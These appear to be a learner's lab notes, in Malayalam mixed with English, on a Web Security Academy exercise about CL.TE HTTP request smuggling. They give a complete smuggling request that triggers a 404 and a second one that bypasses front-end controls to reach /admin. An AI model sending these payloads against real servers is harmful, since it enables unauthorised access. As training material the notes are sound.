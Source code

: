            Lab-4(HTTP request smuggling, confirming a CL.TE vulnerability via 
                       differential responses)
-->ivide CL.TE  enna vulnerability undon check chyuna lab aan ullath
-->so GET / reqeust repeater ilek viduka
-->ini athil url , host header ozhichu ellam remove chyuka enit `Content-Type: application/x-www-form-urlencoded Content-Length: 35 Transfer-Encoding: chunked`  kodukuka
-->namuk ariyam (sherikum namuk areela but ith lab aayond ariyam) front end content-length support chyum.so 35 enn length kodukunu.backend transfer-encoding support chyunu
-->final payload :

```http
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

-->ivide front end C.L support chyunath kond request ile ellam edukunu.but backen il chunked mathrame support chyu.so 0 kk shesham ullath next request aayi kanunu
-->ivide lab solve chyanamengil smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response. 
-->athukondan GET /404  enn smuggled request il koduthath
-->ivide x-ignore: x enn kodukanamenonum ila. x: x enn koduthalum aavum pakshe namal correct content-lenth specify chyanam.njan paranju front-end server content-length aan support chyunathen so athinte length correct aayi specify chyunilengil front-end ath kitunath vere wait chyum enit response "read timeout" enna error tharum
-->so ivide namuk lab solve aakumbol response aayi `HTTP/1.1 404 Not Found`   varum ok

==============================================================

### Bypass front-end security controls :
-->Suppose the current user is permitted to access `/home` but not `/admin`. They can bypass this restriction using the following request smuggling attack:

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```
